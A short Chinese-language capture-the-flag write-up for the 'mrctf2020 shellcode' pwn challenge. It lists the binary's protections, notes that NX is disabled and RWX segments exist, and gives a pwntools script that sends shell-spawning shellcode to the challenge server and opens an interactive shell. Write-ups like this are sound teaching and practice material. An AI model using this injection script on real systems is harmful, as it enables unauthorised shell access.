 ```yaml
---
author: 
  name: Zephyr
title: mrctf2020 shellcode
date: 2022-4-4 15:06:25
permalink: /pages/2e1547494524d1a5
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# mrctf2020 shellcode

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/mrctf2020_shellcode/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## 静态分析

程序流程如下：

![mrctf2020_shellcode_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/mrctf2020_shellcode_2.png)

## 思路分析

1. 目前信息：
   
   - Full RELRO
   - No canary found
   - NX disabled
   - PIE enabled
   - Has RWX segments
2. 思路：
   - 有可读可写可执行权限，根据上图程序流程，直接写入`shellcode`即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/mrctf2020_shellcode/mrctf2020_shellcode'
io = remote('node4.buuoj.cn', 27771)
# io = process(pwnfile)
elf = ELF(pwnfile)
shellcode = asm(shellcraft.sh())
io.recv()
io.sendline(shellcode)
io.interactive()
```